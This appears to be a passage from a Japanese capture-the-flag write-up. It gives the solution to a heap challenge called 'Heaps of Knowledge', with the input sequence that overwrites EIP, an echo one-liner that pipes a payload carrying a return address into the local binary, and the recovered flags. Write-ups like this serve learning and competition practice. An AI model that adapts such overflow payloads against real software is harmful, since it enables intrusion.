 ```
r0p_7o_v1ct0ry
```

### Heaps of Knowledge (420)

なんか適当にやっていると EIP が取れてしまいました。

```
AAAAAAAA
1
1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
1
2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
1
1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
3
```

で EIP が 0x42424242 になります。あとは `echo -en "AAAAAAAA\n1\n1\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n1\n2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n1\n1\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb0\x87\x04\x08\n3\n" | ./heaps_of_knowledge` でフラグが出てきました。

```
4r3nT_u_hav1ng_h34pz_0f_Fun?
```
